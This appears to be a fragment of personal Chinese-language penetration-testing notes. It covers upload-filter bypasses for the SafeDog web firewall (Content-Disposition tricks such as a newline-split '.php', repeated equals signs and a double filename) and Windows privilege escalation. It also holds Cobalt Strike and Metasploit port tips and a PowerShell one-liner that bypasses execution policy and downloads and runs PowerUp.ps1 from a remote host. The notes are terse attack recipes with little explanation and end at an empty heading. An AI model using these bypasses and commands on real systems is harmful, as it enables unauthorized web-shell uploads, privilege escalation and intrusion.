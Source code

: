 ## 安全狗 上传 ##

https://mp.weixin.qq.com/s/NHaoynCPKr-TEkmYjmIUtw

白名单只能审包含或者配合中间件漏洞


在content-Dispositon中修改

垃圾字符绕过(溢出)

换行:

    1
    .
    p
    h
    p


等号: filename=====1.php

双文件名 filename="1.jpg";filename="1.php"

## 提权 ##
**类型:纵向，横向提权**
# windows类型  #(四种权限user,administrator,system,TrustedInstaller)

溢出漏洞，第三方，数据库，软件，dll

Powershell -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.119.135/PowerUp.ps1');Invoke-ALLChecks"
# serv u #

端口:43958

大马会有，并且存在版本漏洞


# cs使用 #
1，cmd 执行马

2，sleep 0

3，

https支持 443 2053 2083 2096，msf要用支持的端口，不然不能上线(不用443)


# 数据库类型 #
 ## 一 ## 
